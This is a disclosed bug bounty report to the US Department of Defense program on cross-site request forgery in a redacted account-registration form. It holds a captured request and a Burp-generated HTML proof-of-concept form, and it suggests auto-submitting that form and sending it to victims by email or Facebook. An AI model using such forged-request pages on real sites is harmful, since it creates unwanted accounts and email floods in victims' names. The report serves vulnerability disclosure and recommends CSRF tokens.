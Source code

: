 # CSRF in  https://███

## Report Details
- **Report ID**: 1090838
- **URL**: https://hackerone.com/reports/1090838
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-30T13:27:44.094Z
- **Disclosed**: 2021-04-20T19:43:41.250Z

## Reporter
- **Username**: blackangel11
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Summary:-
---------
Cross-Site Request Forgery (CSRF)

## Impact

1-The web application does not, or can not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request.

2-send many request via server i mean request to server and response of server
which lead to dos attacks or full the emails of users with message which may select as spam from security of email .

3-Sending a lot of messages may lead to the running out of the website's subscription services to its email server to users or losing the site a lot of money for thousands of activation messages

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Steps:-
--------
1-go to https://█████████
2-full input
3-intercept request using burp suite
Request:-
-------------
```
POST /███████ HTTP/1.1
Host: ████████
Connection: close
Content-Length: 9860
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://████
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://█████
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

███
```
4-generate csrf poc code and sava it as html file
code:-
----------
````
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://█████████" method="POST">
      <input type="hidden" name="ctl00&#95;ToolkitScriptManager1&#95;HiddenField" value="" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxFirstName" value="df" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;Email" value="dsafhdsk&#64;gmail&#46;com" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxLastName" value="addfsag" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxConfirmEmail" value="dsafhdsk&#64;gmail&#46;com" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxAddress1" value="cairo" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxPhoneNumber" value="████████" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxAddress2" value="cairo" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxCellPhone" value="███████" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxCity" value="cairo" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxOrganizationName" value="dfs" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;dropDownListState" value="KS" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxJobTitle" value="dsf" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;textboxZipCode" value="11311" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;dropDownListSector" value="Federal" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;UserName" value="cairoer55" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;Password" value="Asdfgh123456&#64;" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;ConfirmPassword" value="Asdfgh123456&#64;" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;Question" value="What&#32;was&#32;your&#32;high&#32;school&#32;mascot&#63;" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;Answer" value="cairo" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;CreateUserStepContainer&#36;checkBoxAcceptDisclaimer" value="on" />
      <input type="hidden" name="ctl00&#36;masterContentHolder&#36;wizardCreateNewUser&#36;&#95;&#95;CustomNav0&#36;StepNextButton" value="Create&#32;User" />
      <input type="hidden" name="&#95;&#95;EVENTTARGET" value="" />
      <input type="hidden" name="&#95;&#95;EVENTARGUMENT" value="" />
      <input type="hidden" name="&#95;&#95;LASTFOCUS" value="" />
      <input type="hidden" name="&#95;&#95;VIEWSTATE" value="████" />
      <input type="hidden" name="&#95;&#95;VIEWSTATEGENERATOR" value="6D58E96E" />
      <input type="hidden" name="&#95;&#95;VIEWSTATEENCRYPTED" value="" />
      <input type="hidden" name="&#95;&#95;EVENTVALIDATION" value="SsnKnjtgFVpxmAM8sF4mFaUo0&#47;QQzHRDsCXtto8KEn9EdQjw36NPtCIZDZxqzMZH7wsoEE6WEMTtGHYPMnOvEw3bdOz2VrVtHRxUVlOwrvX2b97yE4Nvrgxhk2EVJZuWoi01LTcBQ&#47;Y235uT9rLOsOEeKPGNkAfNJc1n7Y&#47;CMOXxN5k3HV45KU9F&#43;reQBp0BdGx9LttbhNB3BygXh3fUhPkSm8vKX3jQg2f43LWWgP&#43;9&#47;gkRRssBDDWvZRKBnTtfGVmGF3bmTL0l2kTdZu&#43;og5HqzxoQsiA5M6f2lIHf4SABPmWa2m2UZUpC30ApCSxFsjyIo5OySNngNcGzWpclbxm6mLhLspHii&#43;exCbnhKiSc1l2Hy4x8cTssV3tfOXPm&#43;DZownZxiwBk1ChuVQGtBQvCV2UgG&#43;ws5ozNp8uhE&#43;Gy0WzXZAkTCMSu8onoj57&#43;jBHuZI1VtYQdhrPerK4RrM7qGeB5WQszTMDogtZ853gU8WSrjfi1aJIlpO7nwo3qrAoXWoG0TrXdNdOoUVxoLdEw22TPRjiZW6qa0e4&#47;lS7Yl2VyxxLUS6m5Ai6RysGadxyaE9m&#47;SIzVnKF62QkAmrSQGG6qNpsdmOE&#47;V0dXyjxieHefUjEYzcZ2roO8Eih3dqm&#43;VLW5Q0MPah80MUFagKjXtmN0SdsI2q5SG65g9f05Irzret8x3S2LcttQJfu1h2h5AlZ&#43;2hzMii6xyq2Q9Uc&#43;1wqCOjvOZzixLZjZnQZ2MUQE2DKhTjdt4&#43;iqalauFjMz3uCfniYyO9rTCTXzNqbI&#43;468Inns&#43;g5T7jBzWw9tbB6Zesmp6kbNQF65ishDy8q1N0IAfq7CPgM65uM1RbKJeqB6vj8tzU0KFpCTezLw&#47;WPkXyOyZ51B0kcesmFlaDoqDs4Z5HBMiYduySE&#43;h4aaSA5gBQrjhIxwAqwSEDnL4REpFPCJqQit&#43;Enpod2cOoniUVKoBtyYiGY9AlRwZrezwVR0d&#47;MKQdscwL5&#43;HTzk&#43;DPjmBWtBlFqJihbo5LWa9Pho1B0PPH0oglssy&#47;akdCyDuX&#43;pzxNTpJITaAhTsuWkIp5SOVi8EfpwE8fXs8F99yc7J1ZxhrG8a52jkc9j0&#47;WBXN8B4B0HoNI2FFS1Qz0U&#43;s83GJoOQJs3SBuobTNev&#47;PyUOy&#47;BOAG&#47;4OAgQ3Q61&#43;kw90EKqKEPYt1w8VZIwTtnmzbaYeQsWVDz8zUHiea6bvlaDX97cCfjpjlr8&#43;9NG5puXudO&#43;SD9l&#43;VwVjmk&#43;ODeZZnuEmHbMD1amDVJNriHPvyYAMAK6tg0rrYP39&#47;srOgwP1J9lNXMLOqrdqbykZupS7ibuF1EzF1nk4uDWq8&#47;nh7jckWJ1sNEFLLAi9iNAtGzV298vKrm8mIY8GsIIHVr28uubWzhwSADvDjHACUhcki0cSZ9lxRxysWsTUK4q9&#43;1PiHKlJF9TGxFmvxHfF2ofDkl0uQghiydkK2NjxdJvoBgGZ5Gcgr9XO7hLq&#47;kwlL8JrEEN19pN815vQxGZwPUTw90cnR9BcGpPO&#47;6xq5Awhbt9&#47;rMTF5YUoEP0tTr7FkvN&#43;Af2&#47;zcYdcge2prVRgajLFRdUxZ6kDrHuMUEdm53WG&#47;71X984X5EtrJctWk&#43;5FnLwWaYcs&#43;x1vs3Jm&#47;S6CJ1H6yz1S6ryKwIkygnwc7rkItHj8PMKh3U0z&#47;2XEATbelKGBTIepMAI1YldyQJ3&#43;R0ZM42ofoO8x9bO9CVAwCYzXqzfx7u7ro8SUeGVLSbpToSgYazFqE6UPnQhj10fWiu02M21Raz9DppGjIgKPY6&#43;Pu&#47;h&#47;6hfMmMqMB9h6BU0&#43;PHV86ju&#43;tpS&#47;CqnH8k2VE&#47;7&#47;wlJHyhVCSfD1Qg90F3JTOgK3KhsFhDFvPgjTZ6&#47;B9hxesXDtaAeIcQXhQM8vT0iLot7dmu8PniqLPlrv5zyLKsm&#43;DiQruFQgAcbZLAhTnN4036Mi6fCR3ZyW9Z4AEzgAkT2pp&#47;4TsDVKxyutEWZqhE7ceqs1SF9JD7qwCJ7NIm1LIfHVx&#47;Es2BEKY5qzc0AKrmbXZ7DJ7gZPsu9GtvcYyOoNm0m&#47;ht0EMGRI82znbgXXPsV87cYiqND&#47;XQfcq2VFFZyoYhVOnVE&#43;LqI" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

````
5-open it in another browser and submit as you see 
```
Your account has been created, but before you can login you must first verify your email address. A message has been sent to the email address you specified. Please check your email inbox and follow the instructions in that email to verify your account.
```
you can make code with auto submit scriot to excuted without and action of victem
only victem click on html file which can send to him via facebook or email.

## Suggested Mitigation/Remediation Actions
put csrf token



## Attachments
No attachments
